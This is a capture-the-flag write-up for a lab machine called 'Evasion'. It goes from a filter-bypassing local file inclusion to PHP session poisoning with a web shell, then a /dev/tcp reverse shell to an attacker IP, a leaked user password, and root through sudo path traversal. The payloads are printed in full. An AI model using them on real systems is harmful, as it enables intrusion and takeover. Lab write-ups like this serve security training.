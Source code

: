 ```yaml
---
title: 'Evasion Writeup'
date: '2025-03-22'
tags: ['LFI', 'Linux', 'Hacking Club']
draft: false
summary: 'The Evasion machine is vulnerable to LFI with filter bypass, session poisoning for RCE, crontab, and privilege escalation via sudo.'
images: ['/static/images/evasion-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/evasion-writeup-images/default.png)

---

## Port Scanning

```bash
nmap -sV -sC -p- -v $IP --min-rate 3000
```

![evasion](/static/images/evasion-writeup-images/image.png)

Only ports 22 (SSH) and 80 (HTTP) are open.

## Enumeration

When accessing the address on port 80, it redirects us to **evasion.hc**

![evasion 1](/static/images/evasion-writeup-images/image1.png)

We need to add the domain to our local DNS **/etc/hosts**

```python
sudo vim /etc/hosts
```

![evasion 2](/static/images/evasion-writeup-images/image2.png)

Accessing the application on port 80, it was possible to register a new user to access the application.

![evasion 3](/static/images/evasion-writeup-images/image3.png)

By intercepting the route for **Software Guide > Download**, it was possible to find an LFI (Local File Inclusion) in the guide parameter. The application has a filter against LFI, but it was bypassed using double URL encoding.
![evasion 4](/static/images/evasion-writeup-images/image4.png)

```jsx
%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%2565%2574%2563%252f%2570%2561%2573%2573%2577%2564
```

![evasion 5](/static/images/evasion-writeup-images/image5.png)

With our session cookie, we can read the file **/var/lib/php/sessions/sess_0n9720fs19remri8e0h26gb5bq**, which we can use to poison the PHP session log.

![evasion 6](/static/images/evasion-writeup-images/image6.png)

To poison the logs, we’ll create a new user but pass a PHP web shell in the login field.

```jsx
<?php system($_GET[0]); ?>
```

![evasion 7](/static/images/evasion-writeup-images/image7.png)

When logging in with the created user (webshell) and intercepting the same request, we can successfully use the poisoning.

```python
../../../../../var/lib/php/sessions/sess_p3eqpujc8mqhqnu9agu96bh8om
```

![evasion 8](/static/images/evasion-writeup-images/image8.png)

---

## Foot Hold

Through LFI, we were able to get RCE by poisoning the logs, and with that, we can get a reverse shell using the following payload:

```python
bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'
```

![evasion 9](/static/images/evasion-writeup-images/image9.png)

```python
nc -lnvp 1337
```

![evasion 10](/static/images/evasion-writeup-images/image10.png)

---

## Privillege Escalation

By running Pspy64 on the server, we identified a running process that reveals the credentials for user **lucas**.

`lucas:TL7g81rqYFW`

![evasion 11](/static/images/evasion-writeup-images/image11.png)

![evasion 12](/static/images/evasion-writeup-images/image12.png)

```python
sudo -l
```

![evasion 13](/static/images/evasion-writeup-images/image13.png)

Since we can run any script as root without a password, we just need to create a Python script that gives us root access to the machine.

```python
echo "import os" > evil.py
echo "os.system('/bin/bash')" >> evil.py
sudo /usr/bin/python3 /opt/scripts/../../../tmp/evil.py
```

![evasion 14](/static/images/evasion-writeup-images/image14.png)

---

## Proof

![evasion 15](/static/images/evasion-writeup-images/image15.png)
